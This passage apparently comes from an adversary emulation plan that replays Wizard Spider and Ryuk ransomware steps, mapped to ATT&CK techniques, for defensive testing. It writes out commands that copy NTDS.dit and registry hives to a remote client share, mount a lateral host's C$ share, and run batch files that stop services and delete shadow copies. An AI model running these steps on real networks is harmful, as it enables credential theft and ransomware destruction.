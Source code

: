 :warning: Make sure the `\\\\?\GLOBALROOT...HarddiskVolumeShadowCopy1` path matches your output!

```bash
jelly execute copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit \\TSCLIENT\X\ntds.dit
```

```bash
jelly execute copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM \\TSCLIENT\X\VSC_SYSTEM_HIVE
```

```bash
jelly execute reg SAVE HKLM\SYSTEM \\TSCLIENT\X\SYSTEM_HIVE
```
| TTP | Notes |
| -------- | ------- |
| T1003.003  | WizardSpider creates a copy of the Active Directory domain database |
| T1003.002  | WizardSpider creates a copy of the SAM database |

## Step 9 - Ryuk Inhibit System Recovery

In step 9, Wizard Spider prepares to deploy an executable based on the Ryuk ransomware.

At the beginning of this step, Wizard Spider mounts the C$ share of a lateral host, toto / 10.0.0.8.

Files on Toto will be encrypted in the next step.

Next, Wizard Spider uploads two files to disk: kill.bat and window.bat.

These files are used to stop specific services and delete backups prior to encrypting the system.

---

### ☣️ Procedures

Mount share so Ryuk can encrypt lateral drives:

```bash
jelly execute net use Z: \\10.0.0.8\C$
```
```bash
# Ryuk has called kill.bat for stopping services, disabling services and killing processes.[1] 
jelly download path/to/kill.bat C:\Users\Public\kill.bat

jelly execute C:\Users\Public\kill.bat
```
```bash
# Ryuk has used vssadmin Delete Shadows /all /quiet to to delete volume shadow copies and vssadmin resize shadowstorage to force deletion of shadow copies created by third-party applications.[1]
jelly download path/to/window.bat C:\Users\Public\window.bat

jelly execute C:\Users\Public\window.bat
```
